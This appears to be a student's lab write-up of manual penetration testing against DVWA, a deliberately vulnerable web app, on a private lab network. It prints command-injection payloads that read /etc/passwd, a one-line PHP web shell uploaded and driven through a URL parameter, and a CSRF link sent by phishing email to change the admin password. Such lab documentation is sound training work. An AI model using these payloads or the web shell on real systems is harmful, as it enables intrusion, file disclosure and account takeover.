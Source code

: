 # Manual Pentesting: DVWA Modules
## Objective
To validate the OWASP ZAP scan results and observe how the web app reacts. Continuation of part 1, which covered SQLi, XSS (reflected), and brute force.

___
## Command Injection 
**Expected behavior**: ping the input IP address (e.g. 127.0.0.1 to ping the Ubuntu server from Kali) and display its result.

![](screenshots/8_1.png)

**Payload:** `127.0.0.1; whoami
- Meaning: send ping to Ubuntu then command chain to reveal which system user the web server is executing as
- Result: www-data displayed on page after ping results

![](screenshots/8_2.png)

**Payload:** `127.0.0.1 && uname -a
- Meaning: send ping then reveal the victim's kernel and system architecture details if the ping succeeds
- Result: Linux server info

![](screenshots/8_3.png)

**Payload:** `127.0.0.1; cat /etc/passwd
- Meaning: send ping then display the contents of the `/etc/passwd` file
- Result: lists all user accounts on Ubuntu's system

![](screenshots/8_4.png)

___
## File Upload
### Steps
1. Created a malicious file named`shell.php`
	This file executes any system command passed through the URL via the `cmd` parameter
```php
   <?php system($_GET['cmd']); ?>
```

2. Uploaded file to DVWA's File Upload module

![](screenshots/8_5.png)

3. Executed commands in the browser by entering the urls:
	`http://192.168.56.20/DVWA/hackable/uploads/shell.php?cmd=whoami

	![](screenshots/8_6.png)
	
	`?cmd=uname -a
	
	![](screenshots/8_7.png)

	`?cmd=cat /etc/passwd
	
	![](screenshots/8_8.png)
### Result
All commands were executed and leaked information about the victim server, like in the command injection module.

___
## CSRF (cross site request forgery)
### Purpose
While the Ubuntu victim is logged into DVWA, trick them into changing the password of the admin account.

![](screenshots/8_9.png)
### Steps
#### 1. Inspect the module's page source and create malicious link.

![](screenshots/Pasted image 20250808212618.png)
The web app uses a GET method to change the password. 
- `action="#"` means it posts to the same page
- Input fields:
	- `password_new`
	- `password_conf`
	- `Change` (submit button name)

The following link can be used to change the password to `hacked: 
```
http://192.168.56.20/DVWA/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
#### 2. Victim is logged into DVWA as `admin.

#### 3. Send phishing email to victim containing the malicious link.
I sent myself the following email and opened it on the Ubuntu VM. I clicked on the "Claim Your Gift" button, which opened the malicious link in a new tab.

![](screenshots/8_10.png)
![](screenshots/8_11.png)
#### Result
When I click Test Credentials and enter`admin`/`password`, the login fails. 

![](screenshots/8_12.png)

`admin`/`hacked` works, so the password was changed to `hacked` successfully.

![](screenshots/8_13.png)
